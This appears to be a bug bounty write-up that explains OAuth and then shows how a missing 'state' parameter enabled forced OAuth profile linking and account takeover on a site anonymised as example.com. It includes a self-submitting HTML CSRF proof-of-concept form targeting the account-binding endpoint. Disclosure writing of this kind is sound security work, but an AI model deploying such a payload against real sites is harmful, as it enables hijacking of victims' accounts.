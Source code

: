 
بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ

in the name of Allah, the most gracious, the most merciful.

**Hello, awesome hackers! ,**My name is Ahmed Talaat(0xtal3at), a junior penetration tester and bug bounty hunter.

This is my first write-up on a real target. I found this with my friend [0x3adwy](https://medium.com/u/4eecf46b8cb6?source=post_page-----954114158818--------------------------------), where I’ll show you how Forced OAuth profile linking leads to an account takeover.

![](https://miro.medium.com/v2/resize:fit:432/1*DDOQkN585MAvdWoBnafEYw.gif)

# What is OAuth?

OAuth is an authorization framework that allows websites and apps to request limited access to a user’s account on platforms like Google or Facebook without exposing login credentials. This lets users control the information they share and enables them to log in using their existing accounts from these providers.

# How does OAuth work?

OAuth enables secure data sharing between applications by involving three main parties:

1. Client Application: The app or website requesting access to the user’s data.(the site you use)  
2. Resource Owner: The user whose data is being accessed.  
3. OAuth Service Provider: The platform (like Google or Facebook)

The OAuth process involves the **authorization code**. Here’s how it works:

- The **Client Application** (the site you use) requests permission to access the user’s data.
- The user logs into the **OAuth Service Provider** (like Google or Facebook) and approves the request.
- The **Client Application** receives an access token that allows it to access the data.
- The **Client Application** uses this token to retrieve information from the server.

![](https://miro.medium.com/v2/resize:fit:700/1*JnPKsqH0PemPSRQ1oXFi6A.gif)

# let’s get start .

We will assume the target we are testing is called `example.com` During testing of the site, I went to **test** the OAuth authentication process. I chose Facebook and clicked “Continue” to link my Facebook account to example.com

![](https://miro.medium.com/v2/resize:fit:500/1*Yp_crpp5eeWiCTHKUhamWg.png)

Then, I captured the request that links a user’s account with an OAuth service provider (such as Google or Facebook).

I noticed that the `state` parameter is missing. This parameter acts like a CSRF token, and if it doesn't exist in this scenario, I can conduct a CSRF attack that lead to a Forced OAuth Profile link to the victim's account.

**The request was structured as follows:**

![](https://miro.medium.com/v2/resize:fit:700/1*Zn_3rTLTWnGQyOGe7bsx3Q.jpeg)

As you can see, the data is sent in JSON format, and I encountered a problem. However, I was able to bypass the CSRF protection in JSON using a trick, which I will discuss in another write-up.

Then, I generated a CSRF payload and sent it to the victim. The proof of concept (PoC) looks like this:

<html>  
  <body>  
    <form action="https://example.com/restapi/bindThirdPart" method="POST">  
      <input type="hidden" name="data" value='{  
        "accessCode": "IBUPCAUTEHNTICATE",  
        "code": "TOKEN Send From OAuth Service Provider",  
        "redirectUri": "https://www.example.com/passport/thirdpart/facebookcallback",  
        "useAccessToken": false,  
        "clientInfo": {  
          "clientId": "CLIENT_ID",  
          "pageId": "PAGE_ID",  
          "locale": "en-SA",  
          "rmsToken": "TOKEN Send From OAuth Service Provider"  
        },  
        "head": {  
          "extension": [  
            {"name": "appId", "value": "VALUE"},  
            {"name": "sequence", "value": "Value"}  
          ]  
        }  
      }' />  
      <input type="submit" value="Submit request" />  
    </form>  
    <script>  
      document.forms[0].submit(); // Automatically submit the form  
    </script>  
  </body>  
</html>

I sent the payload to the victim, and as a result, their account was linked to my Facebook account.

![](https://miro.medium.com/v2/resize:fit:700/1*Zp_HKNHb-F7zwZJ-5QUNeQ.png)

As a result, I have successfully taken over the victim’s account by logging in with my Facebook credentials, gaining access to all their information and actions.

